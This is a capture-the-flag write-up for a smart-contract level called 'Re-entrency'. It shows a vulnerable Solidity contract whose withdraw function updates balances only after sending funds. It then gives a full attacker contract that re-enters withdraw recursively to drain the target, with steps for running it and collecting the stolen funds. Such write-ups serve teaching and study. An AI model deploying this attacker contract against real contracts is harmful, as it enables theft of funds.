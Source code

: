 # 10. Re-entrency

The goal of this level is for you to steal all the funds from the contract.

## Target contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Reentrance {
  
  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  receive() external payable {}
}
```

## Vulnerability

This contract does not respect the CHECK - EFFECT - INTERACTION pattern. EFFECT `balances[msg.sender] -= _amount;` happens after INTERACTION ` (bool result,) = msg.sender.call{value:_amount}("");`. It is possible to design a smart contract calling that function recursively to drain all funds from the target contract.
This attack is exactly what happen during the infamous DAO hack.

This can be done with the following contract :

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

contract Reentrency {

    address owner;
    address targetContract;
    uint256 withdrawAmount;

    modifier onlyOwner() {
        require(msg.sender == owner);
        _;
    }

    constructor(address _targetContract) payable {
        require(msg.value >= 0.1 ether);

        owner = msg.sender;
        targetContract = _targetContract;
        withdrawAmount = msg.value;
        (bool success, ) = targetContract.call{value: msg.value}(abi.encodeWithSignature("donate(address)", address(this)));

        require(success);
    }

    function attack(uint256 amount) public {
        (bool success, ) = targetContract.call(abi.encodeWithSignature("withdraw(uint256)", amount));
        require(success);
    }

    function withdraw() onlyOwner() public {
        (bool success, ) = owner.call{value: address(this).balance}("");
        require (success);
    }

    receive() external payable {
        if (targetContract.balance == 0) {
            return;
        }

        uint256 toWithdraw = targetContract.balance > withdrawAmount ? withdrawAmount : targetContract.balance;
        attack(toWithdraw);
    }
}
```

Just make sure to call `attack` with a high enough gas limit. When the attack is done, you can withdraw the stolen funds by calling the `withdraw`.